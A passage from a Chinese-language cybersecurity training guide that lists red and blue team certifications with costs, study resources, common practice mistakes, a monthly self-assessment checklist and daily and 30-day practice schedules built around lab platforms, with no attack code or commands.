└── 6. 复现：按照WriteUp的步骤在本地环境复现一遍
```

## 26.5.7 成长路径与认证规划

### 红队成长路径



### 蓝队成长路径



### 推荐认证

| 认证 | 方向 | 难度 | 费用 | 有效期 | 说明 |
|------|------|------|------|--------|------|
| OSCP | 红队 | 中 | $1,599 | 永久 | 渗透测试黄金标准，24小时实战考试 |
| OSCE3 | 红队 | 高 | $5,999 | 永久 | OffSec高级认证，含OSCE/OSWE/OSEP |
| CRTO | 红队 | 中 | $499 | 3年 | 红队作战专项，重点AD攻击 |
| CRTP | 红队 | 初-中 | $249 | 3年 | AD安全入门认证 |
| PNPT | 红队 | 中 | $399 | 永久 | 实战渗透测试，包含报告提交 |
| BTL1 | 蓝队 | 初-中 | $499 | 3年 | 蓝队基础认证（Security Blue Team） |
| BTL2 | 蓝队 | 中-高 | $699 | 3年 | 蓝队高级认证 |
| GCFA | 蓝队 | 中 | $849 | 3年 | SANS数字取证认证 |
| GCIH | 蓝队 | 中 | $849 | 3年 | SANS事件响应认证 |
| CySA+ | 蓝队 | 中 | $392 | 3年 | CompTIA安全分析师认证 |
| SC-200 | 蓝队 | 中 | $165 | 2年 | Microsoft安全运营分析师 |

### 学习资源推荐

| 类型 | 资源 | 说明 |
|------|------|------|
| 书籍 | 《Hacking: The Art of Exploitation》 | 漏洞利用经典教材 |
| 书籍 | 《Penetration Testing》 | OSCP作者Georgia Weidman所著 |
| 书籍 | 《Blue Team Handbook》 | 蓝队实战手册 |
| 课程 | SANS SEC560 | 渗透测试与道德黑客 |
| 课程 | SANS SEC511 | 企业防御与持续监控 |
| 视频 | IppSec（YouTube/BBR） | HTB靶机详细解说，红队必看 |
| 平台 | PortSwigger Web Security Academy | 最佳Web安全免费课程 |
| 论文 | MITRE ATT&CK官方文档 | 理解攻防技术的权威参考 |

## 26.5.8 常见误区与纠正

### 红队练习误区

| 误区 | 问题 | 纠正方法 |
|------|------|----------|
| 工具依赖症 | 只会用自动化工具，不理解原理 | 每个工具都要学习其工作原理，尝试手动复现 |
| 跳过基础 | 直接学习高级攻击技术 | 必须先掌握网络协议和操作系统基础 |
| 只打靶不总结 | 大量完成靶机但没有复盘 | 每台机器写500字复盘笔记，提炼方法论 |
| 忽视合法合规 | 在未授权环境中测试 | 始终在隔离实验室或授权靶场中练习 |
| 追求数量不求质量 | 追求完成靶机数量 | 选择10台深入分析，胜过快速完成50台 |

### 蓝队练习误区

| 误区 | 问题 | 纠正方法 |
|------|------|----------|
| 只看工具不看日志 | 过度依赖SIEM告警，不看原始日志 | 定期手动分析原始日志，培养日志阅读能力 |
| 忽视告警疲劳 | 大量误报导致忽视真实告警 | 学习调优检测规则，建立告警分级机制 |
| 被动防御思维 | 只等待告警，不主动搜索 | 学习威胁狩猎方法论，主动发现威胁 |
| 忽视基础架构安全 | 专注检测不关注加固 | 学习安全配置基准（CIS Benchmark） |

## 26.5.9 练习效果评估

### 技能评估矩阵

定期评估自身技能水平，识别薄弱环节：



### 月度自评清单

每月末用30分钟完成以下自评：

```text
红队技能自评：
□ 本月完成了多少台靶机？（目标：4-6台）
□ 是否学习了新的ATT&CK技术？（目标：2-3个）
□ 是否独立编写了自定义exploit？
□ 是否阅读了3篇以上的安全研究论文？
□ 是否在隔离环境中测试了新工具？

蓝队技能自评：
□ 本月分析了多少条告警？（目标：50+条）
□ 是否编写了新的检测规则？
□ 是否完成了一次完整的事件响应演练？
□ 是否进行了威胁狩猎练习？
□ 是否更新了安全运营SOP文档？

紫队技能自评：
□ 是否与团队成员进行了联合演练？
□ 是否将红队发现转化为蓝队检测规则？
□ 是否优化了攻防双方的沟通流程？
□ 是否产出了一份可复用的演练脚本？
```

## 26.5.10 练习节奏与习惯养成

### 每日练习计划（1-2小时版本）

```text
工作日（每天1小时）：
├── 周一：理论学习（阅读安全文档/论文/WriteUp）— 60分钟
├── 周二：靶场练习（完成1个TryHackMe房间）— 60分钟
├── 周三：工具练习（学习/练习一个安全工具）— 60分钟
├── 周四：靶场练习（完成HTB一台靶机）— 60分钟
└── 周五：复盘总结（整理本周笔记/分享学习成果）— 60分钟

周末（每天2-3小时）：
├── 周六：CTF比赛或深度练习 — 2-3小时
└── 周日：社区参与/知识整理/项目实践 — 2-3小时
```

### 习惯养成建议

```text
30天入门计划：
├── 第1-7天：搭建练习环境，完成3个TryHackMe入门房间
├── 第8-14天：完成5个DVWA练习（从Low到High）
├── 第15-21天：完成3台HTB Easy靶机
├── 第22-28天：参加1次CTF比赛（线上）
└── 第29-30天：撰写30天学习总结报告

关键习惯：
├── 固定时间：每天同一时间段练习（如晚上8-9点）
├── 固定地点：安静、不受打扰的学习环境
├── 仪式感：打开终端→戴上耳机→进入学习状态
├── 记录：每次练习后花5分钟写笔记
└── 分享：每周末在社区分享一篇学习心得
```
